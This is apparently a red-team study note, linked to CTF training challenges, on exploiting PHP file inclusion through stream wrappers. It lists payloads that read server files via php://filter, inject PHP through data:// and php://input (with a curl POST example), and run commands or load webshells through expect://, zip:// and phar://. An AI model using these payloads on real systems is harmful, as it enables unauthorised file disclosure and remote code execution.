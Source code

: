 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../../../cybersecurity/_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![php_filters](../../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![remote_file_inclusion](../../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/file_inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file` or use `php://filter/zlib.deflate/read=convert.base64-encode/resource=/path/to/file` for shorter payloads. [Refer to this to automatically decode it](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php--catch-requests). You may also use `string.rot13` or `string.rot13`.

To **inject** some code (encoded as base64):

* `data:text/plain,<?php%20phpinfo();%20?>`
* `data://text/plain;base64,<base64 php code here>`
* `php://filter/convert.base64-decode/resource=data://plain/text,<base64 php code here>` <small>(is RFI the only one?)</small>
* `allow_url_include` must be enabled 🛑

To **inject** some code (as POST data), inject `php://input` and use:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>

We can also use some special wrappers:

* `expect://id`: run the `id` command, not often installed
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

Refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#phar) to generate phar archives or to write PHP code.
</div></div>
